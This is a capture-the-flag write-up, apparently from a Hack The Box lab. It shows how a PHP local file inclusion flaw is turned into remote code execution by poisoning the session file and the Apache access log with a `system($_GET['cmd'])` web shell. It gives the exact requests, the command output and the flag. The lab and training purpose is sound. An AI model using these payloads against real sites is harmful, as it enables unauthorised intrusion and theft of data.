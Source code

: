 ## Challenge #1
Use any of the techniques covered in this section to gain RCE, then submit the output of the following command: pwd

## Solution #2

I use `Burp Suite` to access the page, and change the language.

In the response I see the `PHPSESSID`:

`Set-Cookie: PHPSESSID=l9ll11404a0a05bf316kjsqq10; path=/`

So let's try to access it:

`http://94.237.54.42:44659/index.php?language=/var/lib/php/sessions/sess_l9ll11404a0a05bf316kjsqq10`

The content is shown as: `selected_language|s:6:"es.php";preference|s:7:"Spanish";`

I send a request now to the URL-encode `<?php system($_GET["cmd"]);?>`: 

```http
GET /index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

The cookie now is: `Set-Cookie: PHPSESSID=m3vgas9i0j5ribv5natidr2ejp; path=/`

Now, let's visit this log with the `&cmd=id` in the url:

`http://94.237.54.42:44659/index.php?language=/var/lib/php/sessions/sess_m3vgas9i0j5ribv5natidr2ejp&cmd=id`

The result is:

`selected_language|s:29:"uid=33(www-data) gid=33(www-data) groups=33(www-data) ";preference|s:7:"Spanish";`

Let's execute the command `pwd` and put the flag.

## Challenge #2

Try to use a different technique to gain RCE and read the flag at /

## Solution #2

I visit the site at `http://94.237.54.42:44659/index.php?language=/var/log/apache2/access.log` to check if it has apache logs at this usual directory.

The result is:

```log
10.30.18.23 - - [10/Feb/2025:21:52:07 +0000] "GET / HTTP/1.1" 200 1466 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36" 10.30.18.23 - - [10/Feb/2025:21:52:07 +0000] "GET /style.css HTTP/1.1" 200 1651 "http://94.237.54.42:44659/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36" 10.30.18.23 - -...
```

which shows me that this is the case.

Let's change the `User-Agent` header in the request by using `Burp Repeater` to a web shell: `<?php system($_GET['cmd']); ?>`.

Now, I visit the page with the `cmd=id` to check the result:

`http://94.237.53.117:43523/index.php?language=/var/log/apache2/access.log&cmd=id`

In the log I see the result of the command: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

Now let's check the list of files and directories in the root directory with the `http://94.237.53.117:43523/index.php?language=/var/log/apache2/access.log&cmd=ls%20/` and in the logs there is a file named `c85ee5082f4c723ace6c0796e3a3db09.txt`.

Let's read the content of this file by going to the url: `http://94.237.53.117:43523/index.php?language=/var/log/apache2/access.log&cmd=cat%20/c85ee5082f4c723ace6c0796e3a3db09.txt`.

The content is: `HTB{1095_5#0u1d_n3v3r_63_3xp053d}` and the lab is solved!
